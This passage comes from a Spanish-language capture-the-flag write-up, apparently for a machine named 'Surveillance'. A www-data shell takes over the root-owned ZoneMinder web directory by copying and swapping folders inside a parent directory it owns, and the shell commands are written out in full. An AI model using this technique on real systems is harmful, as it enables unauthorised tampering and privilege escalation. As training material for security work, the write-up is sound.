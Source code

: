 ```bash
< Cache-Control: no-store, no-cache, must-revalidate
< Pragma: no-cache
< Set-Cookie: zmSkin=classic; expires=Thu, 09-Mar-2034 01:13:07 GMT; Max-Age=311040000; SameSite=Strict
< Set-Cookie: zmCSS=base; expires=Thu, 09-Mar-2034 01:13:07 GMT; Max-Age=311040000; SameSite=Strict
< Content-Security-Policy: script-src 'self' 'nonce-78c7ab9b6853da1b66d9ecaacbcd0e96'
```

Peeeero antes de verlo, viendo los archivos de la máquina encontramos algo curioso:

```bash
www-data@surveillance:/usr/share/zoneminder/www$ ls -la
total 68
drwxr-xr-x 13 root     zoneminder 4096 Oct 17  2023 .
drwxr-xr-x  4 www-data www-data   4096 Oct 17  2023 ..
drwxr-xr-x  3 root     zoneminder 4096 Oct 17  2023 ajax
drwxr-xr-x  4 root     zoneminder 4096 Oct 17  2023 api
drwxr-xr-x  2 root     zoneminder 4096 Oct 17  2023 css
drwxr-xr-x  2 root     zoneminder 4096 Oct 17  2023 fonts
drwxr-xr-x  2 root     zoneminder 4096 Oct 17  2023 graphics
drwxr-xr-x  4 root     zoneminder 4096 Oct 17  2023 includes
-rw-r--r--  1 root     zoneminder 9294 Nov 18  2022 index.php
drwxr-xr-x  2 root     zoneminder 4096 Oct 17  2023 js
drwxr-xr-x  2 root     zoneminder 4096 Oct 17  2023 lang
-rw-r--r--  1 root     zoneminder   29 Nov 18  2022 robots.txt
drwxr-xr-x  3 root     zoneminder 4096 Oct 17  2023 skins
drwxr-xr-x  5 root     zoneminder 4096 Oct 17  2023 vendor
drwxr-xr-x  2 root     zoneminder 4096 Oct 17  2023 views
www-data@surveillance:/usr/share/zoneminder/www$ cd ..
www-data@surveillance:/usr/share/zoneminder$ ls -al
total 48
drwxr-xr-x   4 www-data www-data    4096 Oct 17  2023 .
drwxr-xr-x 151 root     root        4096 Nov  9 13:05 ..
drwxr-xr-x   2 root     zoneminder 36864 Oct 17  2023 db
drwxr-xr-x  13 root     zoneminder  4096 Oct 17  2023 www
www-data@surveillance:/usr/share/zoneminder$
```

Aunque las carpetas `db` y `www` sean propiedad de root, nosotros poseemos la propiedad de la carpeta `/usr/share/zoneminder` en si, lo que significa que podemos copiarnos la carpeta www, renombrar la que ya existe y colocar la copia que hicimos en su lugar, lo que nos dará privilegio de editar todos los archivos de la web a gusto:

```bash
www-data@surveillance:/usr/share/zoneminder$ cp -r www www2
www-data@surveillance:/usr/share/zoneminder$ mv www a
www-data@surveillance:/usr/share/zoneminder$ mv www2 www
www-data@surveillance:/usr/share/zoneminder$ ls -la
total 52
drwxr-xr-x   5 www-data www-data    4096 Apr 30 01:19 .
drwxr-xr-x 151 root     root        4096 Nov  9 13:05 ..
drwxr-xr-x  13 root     zoneminder  4096 Oct 17  2023 a
drwxr-xr-x   2 root     zoneminder 36864 Oct 17  2023 db
drwxr-xr-x  13 www-data www-data    4096 Apr 30 01:19 www
```
